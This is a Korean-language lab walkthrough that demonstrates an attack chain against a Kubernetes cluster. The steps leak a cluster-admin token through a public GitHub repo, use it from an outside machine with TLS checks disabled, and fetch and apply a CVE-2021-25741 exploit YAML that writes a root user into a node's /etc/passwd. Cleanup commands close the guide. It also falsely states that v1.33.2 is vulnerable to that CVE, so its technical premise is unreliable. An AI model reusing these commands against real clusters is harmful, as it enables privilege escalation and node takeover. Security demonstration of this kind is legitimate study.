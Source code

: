 # 외부-침투 시나리오 & 토큰 유출 데모

이 문서는 **Kubernetes v1.33.2** 클러스터(마스터 1, 워커 3)를 대상으로, 외부에서 인증 토큰 유출 → API 침투 → CVE-2021-25741 PoC 실행 → 노드 권한 획득까지의 전 과정을 단계별로 설명합니다.

---

## 1. 클러스터 환경

* **노드 구성**

  * `k8s-master` (10.178.0.2) Control-Plane
  * `k8s-work1` / `k8s-work2` / `k8s-work3` (10.178.0.3/4/5) Worker
* **버전**: Kubernetes v1.33.2 (CSI SubPath CVE-2021-25741 취약 범위 포함)
* **로그 파이프라인**: Vector DaemonSet → Kafka(`raw_k8s`) (추후 LLM 정규화)

---

## 2. 사전 준비 (마스터 VM)

1. **서비스어카운트·토큰 생성** (24h 만료)

   ```bash
   kubectl -n kube-system create sa demo-leak
   kubectl create clusterrolebinding demo-leak \
     --clusterrole=cluster-admin \
     --serviceaccount=kube-system:demo-leak

   # v1.24+ 클러스터에서
   kubectl -n kube-system create token demo-leak --duration=24h \
     > /tmp/leak.token
   ```
2. **방화벽 규칙 만들기** (API 서버 6443 열기)

   * GCP 콘솔 ▶ VPC 네트워크 ▶ 방화벽 규칙 ▶ Create

     * Name: `allow-demo-6443`
     * Direction: Ingress
     * Action: Allow
     * Targets: All instances
     * Source IP ranges: `<YOUR_MAC_IP>/32`
     * Protocols and ports: `tcp:6443`
3. `/tmp/leak.token` 내용 확인

   ```bash
   cat /tmp/leak.token
   ```

---

## 3. 토큰 유출 시뮬레이션 (GitHub)

1. **새 레포** `demo-leak` 생성 (Public)
2. `/tmp/leak.token` 파일을 `README.md`에 붙여 커밋 & 푸시

   ```bash
   cd ~/demo-leak
   echo "## 토큰 유출 테스트" > README.md
   cat /tmp/leak.token >> README.md
   git add README.md
   git commit -m "leak kube token"
   git push origin main
   ```

---

## 4. 외부 PC(맥)에서 침투 테스트

Mac 터미널에서 순서대로 복붙:

```bash
# 1) kubectl 설치
brew install kubectl

# 2) 환경변수 설정
TOKEN="$(curl -s https://raw.githubusercontent.com/<USER>/demo-leak/main/README.md | tail -1)"
API="https://34.64.60.22:6443"

# 3) 외부 접속 확인
kubectl --token "$TOKEN" \
        --server "$API" \
        --insecure-skip-tls-verify \
        get ns

# 4) PoC YAML 가져와 배포
curl -L -o exploit.yaml \
  https://raw.githubusercontent.com/zerosam/CVE-2021-25741-PoC/main/exploit.yaml
kubectl --token "$TOKEN" --server="$API" \
        --insecure-skip-tls-verify apply -f exploit.yaml

# 5) 공격 로그 실시간 보기
kubectl --token "$TOKEN" --server="$API" \
        --insecure-skip-tls-verify logs -n poc -l app=exploit -f
# → [EXPLOIT] wrote 'pwned' to /host/etc/passwd

# 6) 노드 뚫림 증명
ssh ubuntu@10.178.0.4 "grep pwned /etc/passwd"
# → pwned:x:0:0:...
```

---

## 5. 정리 (Clean-up)

```bash
# Mac에서 PoC 삭제
kubectl --token "$TOKEN" --server "$API" \
        --insecure-skip-tls-verify delete -f exploit.yaml

# 마스터 VM에서 네임스페이스·토큰·방화벽 삭제
kubectl delete ns poc
kubectl -n kube-system delete sa demo-leak
kubectl delete clusterrolebinding demo-leak

# GCP 콘솔 또는 Cloud Shell에서
# gcloud compute firewall-rules delete allow-demo-6443
```

---

